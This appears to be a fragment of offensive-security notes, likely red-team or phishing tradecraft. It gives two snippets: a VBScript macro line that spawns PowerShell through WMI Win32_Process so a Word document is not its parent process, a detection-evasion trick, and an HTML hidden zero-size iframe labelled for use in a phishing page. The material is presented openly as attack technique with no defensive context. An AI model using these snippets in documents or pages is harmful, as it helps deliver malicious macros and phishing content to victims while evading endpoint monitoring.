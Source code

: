 - Break MS Word parent-child releationship 
	```VBScript
	Dim proc As Object
	Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
	proc.Create "powershell"
	```

- Embedding hidden iframe in phishing page
```HTML
<iframe src="<URI/URL>" width="0" height="0" frameborder="0" tabindex="-1" title="empty" style=visibility:hidden;display:none"> </iframe>
```